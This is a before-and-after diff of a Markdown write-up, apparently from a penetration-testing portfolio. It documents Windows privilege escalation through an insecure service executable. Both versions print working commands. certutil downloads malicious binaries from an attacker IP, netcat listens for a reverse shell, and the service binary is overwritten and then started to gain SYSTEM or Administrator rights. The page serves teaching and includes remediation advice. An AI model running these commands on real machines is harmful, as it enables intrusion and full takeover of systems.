

Before and after one commit to Tharisky/Portfolio, a Markdown page: PrivEsc/Windows/Insecure Service Executables (Binaries).md, 2 parts joined by grey strips. Shown at 95% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/PrivEsc/Windows/Insecure Service Executables (Binaries).md
+++ b/PrivEsc/Windows/Insecure Service Executables (Binaries).md
@@ -1,9 +1,8 @@
-# Vulnerability Overview
-Insecure Service Executables refer to a vulnerability where the executable file (binary) that a Windows service runs has weak permissions, allowing an unprivileged user to modify or replace it.
-Since services often run with elevated privileges (e.g., SYSTEM), altering the executable can lead to privilege escalation.
+## Proof of Concept: Privilege Escalation via Insecure Service Executables
 
+### Vulnerability Overview
 
+**Insecure Service Executables** is a vulnerability in Windows systems where the executable file (binary) of a service has weak permissions, allowing an unprivileged user to modify or replace it. Since Windows services often run with elevated privileges (e.g., `SYSTEM`), altering the executable can lead to privilege escalation, granting attackers higher-level access to the system.
 
-# POC
-It is important to know that there will be initial access to the target system before the privilege escalation is done. This was carried out by accessing the machine with a user credential and then using on the target CMD `certutil -urlcache -split -f http://10.4.106.235/esc.exe` a malicious file needed for the reverse shell was downloaded on the target, while the attacker machine listened with the command ` nc -nlvp 2294`
+---
 
@@ -33,46 +76,45 @@ Then, I sent two malicious files to the target via the reverse terminal
 
-After the upload, the file was used to replace the original binary file of the `filepermsvc` service by using the command `copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
-![Screenshot from 2025-03-19 08-52-16](https://github.com/user-attachments/assets/85c1e6f0-bf8e-481f-a5f6-5e055be05dc2)
+#### Step 4: Exploit the Vulnerability (Method 2 - Add User to Admin Group)
+- Uploaded a second malicious file, `x.exe`, a compiled Windows service binary designed to add the current user to the Administrator group:
+  ```bash
+  certutil -urlcache -split -f http://10.4.106.235/x.exe
+  ```
+  - **Screenshot**: File Upload
+    ![File Upload](https://github.com/user-attachments/assets/e8ea9a11-9260-4faf-858b-9ae83964c9ae)
 
+- Replaced the service binary with `x.exe`:
+  ```bash
+  copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
+  ```
+  - **Screenshot**: File Replacement
+    ![File Replacement](https://github.com/user-attachments/assets/acb2c733-d030-4cea-a430-e7fc7a986807)
 
+- Checked the user’s privileges before executing the service:
+  - **Screenshot**: Initial User Privileges
+    ![Initial Privileges](https://github.com/user-attachments/assets/829b828e-8bdd-4d92-abfe-23a8e433bb75)
 
+- Started the service to execute the malicious binary:
+  ```bash
+  net start filepermsvc
+  ```
+- **Result**: The service executed `x.exe`, adding the user to the Administrator group, successfully escalating privileges.
+  - **Screenshot**: Updated User Privileges
+    ![Updated Privileges](https://github.com/user-attachments/assets/906ade65-553d-4d50-8bb0-2b7e299165b9)
 
-This malicious file was uThis file would give a reverse shell with elevated privileges, and  when the servuice starts running
-With a reverse shell running on
-![Screenshot from 2025-03-19 08-53-31](https://github.com/user-attachments/assets/2819563c-bbe4-42e7-af9f-29cd6a186274)
+---
 
+### Summary of Findings
 
-and it gave a reverse shell with admin privilege
-![Screenshot from 2025-03-19 08-53-31](https://github.com/user-attachments/assets/22f9cc78-800f-43d3-9e7b-d4fe7944b35a)
+- The `filepermsvc` service binary had insecure permissions, allowing the `BUILTIN\Users` group to modify it (`FILE_ALL_ACCESS`).
+- Two methods were used to exploit this vulnerability:
+  1. Replaced the binary with `esc.exe`, gaining a reverse shell with `SYSTEM` privileges.
+  2. Replaced the binary with `x.exe`, adding the user to the Administrator group.
+- Both methods successfully escalated privileges, demonstrating the severity of the vulnerability.
 
+---
 
+### Conclusion
 
-# ######################################################################
+This PoC confirms that the "Insecure Service Executables" vulnerability in the `filepermsvc` service allows an unprivileged user to escalate privileges to `SYSTEM` or Administrator level. By exploiting weak permissions on the service binary, attackers can execute arbitrary code with elevated privileges, posing a significant risk to system security. Immediate remediation is recommended, such as restricting permissions on service binaries and ensuring services run with the least privilege necessary.
 
-
-2.x.exe: This file is a windows_service file that was compiled into an exe.. would elevate the privilege of the current user by adding it to the administrator group
- `certutil -urlcache -split -f http://10.4.106.235/x.exe`
-   This was used to upload the file
-![Screenshot from 2025-03-19 08-56-29](https://github.com/user-attachments/assets/e8ea9a11-9260-4faf-858b-9ae83964c9ae)
-
-
-Then we copy using `copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
-![Screenshot from 2025-03-19 08-57-40](https://github.com/user-attachments/assets/acb2c733-d030-4cea-a430-e7fc7a986807)
-
-Before running the command, the user had this privilege
-![Screenshot from 2025-03-19 08-58-56](https://github.com/user-attachments/assets/829b828e-8bdd-4d92-abfe-23a8e433bb75)
-
-
-after running `net start permsvc` the user had
-![Screenshot from 2025-03-19 08-58-56](https://github.com/user-attachments/assets/906ade65-553d-4d50-8bb0-2b7e299165b9)
-
-
-4.
-
-
-
-  copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
-
-
-
-net start filepermsvc
+---
````
Also changed, not shown: other parts of PrivEsc/Windows/Insecure Service Executables (Binaries).md (+60 -16 lines).
